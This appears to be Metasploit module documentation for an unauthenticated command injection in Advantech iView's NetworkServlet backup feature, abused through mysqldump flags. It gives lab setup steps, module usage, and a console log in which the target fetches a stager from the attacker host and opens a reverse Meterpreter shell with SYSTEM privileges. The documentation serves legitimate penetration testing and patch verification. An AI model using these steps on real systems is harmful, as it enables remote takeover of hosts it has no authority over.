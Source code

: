 ## Vulnerable Application

Versions of Advantech iView software below `5.7.04.6469` are vulnerable to
an unauthenticated command injection vulnerability via the `NetworkServlet` endpoint.
The database backup functionality passes a user-controlled parameter, `backup_file`
to the `mysqldump` command. The sanitization functionality only tests for SQL injection
attempts and directory traversal, so leveraging the `-r` and `-w` `mysqldump` flags
permits exploitation. The command injection vulnerability is used to write a
payload on the target and achieve remote code execution as NT AUTHORITY\SYSTEM.

A vulnerable version can be installed from [here](https://downloadt.advantech.com/download/downloadsr.aspx?File_Id=1-26RVVS9).

Other versions of the software can be found [here](https://www.advantech.tw/support/details/firmware?id=1-HIPU-183).

### Installation Instructions

Distributed with the installer is a PDF containing detailed installation instructions
for the software. Once the installation has finished, you may have issues getting the
Tomcat service to start. If that's the case, follow the steps below (pulled from advantech_iview_unauth_rce.md):

  1. Copy the msvcr100.dll file from C:\Program Files (x86)\Java\jre7\bin to C:\Program Files (x86)\iView\Apache Software Foundation\Tomcat6.0\bin.
  2. Restart the "Apache Tomcat 6" service. 1 At this point, the application should be listening on port 8080 and no additional configuration is necessary.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/http/advantech_iview_networkservlet_cmd_inject`
4. Do: `set RHOST <ip>`
5. Do: `run`
6. You should get a meterpreter session.

## Options

## Scenarios

### Advantech iView Webserver `v5.7.04.6425` on Windows 10 21H2 x64

```
msf6 > use exploit/windows/http/advantech_iview_networkservlet_cmd_inject
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/advantech_iview_networkservlet_cmd_inject) > set rhost 192.168.140.197
rhost => 192.168.140.197
msf6 exploit(windows/http/advantech_iview_networkservlet_cmd_inject) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(windows/http/advantech_iview_networkservlet_cmd_inject) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Using URL: http://192.168.140.1:8080/QVp4zocvVZ9f
[*] Client 192.168.140.197 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1237) requested /QVp4zocvVZ9f
[*] Sending payload to 192.168.140.197 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1237)
[*] Sending stage (200774 bytes) to 192.168.140.197
[*] Command Stager progress - 100.00% done (125/125 bytes)
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.197:50152) at 2022-07-21 16:48:57 -0500
[*] Server stopped.
[!] This exploit may require manual cleanup of 'webapps\iView3\vQbGQrFe.jsp' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-04M9HG7
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
